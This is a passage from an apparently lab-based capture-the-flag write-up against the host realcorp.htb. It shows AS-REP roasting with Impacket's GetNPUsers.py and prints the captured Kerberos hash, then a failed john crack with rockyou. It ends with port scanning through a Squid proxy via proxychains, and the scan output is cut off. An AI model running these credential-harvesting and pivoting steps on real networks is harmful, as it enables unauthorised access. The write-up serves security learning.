 With the username, I can try to get a hash off of Kerberos using
`GetNPUsers.py`. This will return a hash if the `UF_DONT_REQUIRE_PREAUTH` flag
is set for the user. It works:

    
    
    oxdf@parrot$ GetNPUsers.py -no-pass -dc-ip 10.10.10.224 realcorp.htb/j.nakazawa | tee j.nakazawa.hash
    Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
    
    [*] Getting TGT for j.nakazawa
    $krb5asrep$18$j.nakazawa@REALCORP.HTB:7587a44ff02ac18b6d395220a463a359$108aeca04223f28b985c5e9e48314e4de555620574e3af19f201cb17968e973a8fb4e69a38681159d2b032f4807680f8d68547eb2407a56c5a5293fe633769e80d20ec7c88e1b5958676645adbf2f08c15e472053db9e65785815084bce1ddc76ef43bbda02cc685411378d82f72fda5abc6c51ca33019da4cbf27b62713f85d67429743f3abb622264766c4772fe1f9ed38433f4e1eef729905dde9419d4bbe2291c5a79765c7198564bae8745e26dcd99fae17539669b87722b7cd8b06d067589ecd5d364a0af81d7f97d7ef22bdf73e2a66e71c03559ebdb9
    

This type of hash [isn’t implemented in hashcat
yet](https://github.com/hashcat/hashcat/issues/2603), but `john` will give it
a run:

    
    
    oxdf@parrot$ john j.nakazawa.hash --wordlist=/usr/share/wordlists/rockyou.txt 
    Using default input encoding: UTF-8
    Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
    Press 'q' or Ctrl-C to abort, almost any other key for status
    0g 0:00:00:40 DONE (2021-06-06 15:19) 0g/s 352773p/s 352773c/s 352773C/s        1..*7¡Vamos!
    Session completed
    

It doesn’t crack with anything in `rockyou.txt`, so it’s likely not the way.

### nmap via Squid

#### localhost

I wanted to try scanning through the proxy. I create a `proxychains` config
that would route through the Squid:

    
    
    strict_chain
    proxy_dns
    [ProxyList]
    http 10.10.10.224 3128
    

It took a bit of playing with `nmap` to get it to work. I worked without
disabling the `proxychains` messages so I could troubleshoot, and just with
the top ten ports until I got something working like this:

    
    
    oxdf@parrot$ sudo proxychains -f proxy-squid.conf nmap --top-ports 10 -sT -Pn 127.0.0.1
    [proxychains] config file found: proxy-squid.conf
    [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
    [proxychains] DLL init: proxychains-ng 4.14
    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-08 07:32 EDT
    [proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:139 <--denied
    [proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:21 <--denied
    [proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:445 <--denied
    [proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:23 <--denied
    [proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:25 <--denied
    [proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:22  ...  OK
    [proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:80 <--denied
    [proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3389 <--denied
    [proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:110 <--denied